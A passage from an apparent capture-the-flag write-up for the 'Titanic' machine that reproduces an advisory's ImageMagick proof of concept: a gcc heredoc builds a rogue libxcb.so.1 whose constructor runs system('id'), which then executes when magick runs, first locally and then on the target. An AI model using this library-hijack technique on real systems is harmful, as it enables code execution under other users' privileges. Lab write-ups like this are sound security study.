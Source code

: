 The POC in the advisory is to run this command to build the shared library:

```

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF

```

And then see that running `magick` runs `id`:

```

$ ls -al
total 24
drwxr-xr-x 2 user user  4096 Jul 20 11:53 .
drwxrwxrwt 1 user user  4096 Jul 20 11:53 ..
-rwxr-xr-x 1 user user 16240 Jul 20 11:53 libxcb.so.1
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ magick /dev/null /dev/null
uid=1000(user) gid=1000(user) groups=1000(user)

```

I can do that same thing on Titanic:

```

developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ magick /dev/null /dev/null
uid=1000(developer) gid=1000(developer) groups=1000(developer)

```

When `magick` runs, it loads the library which calls `system("id")` in it’s constructor.

#### Shell
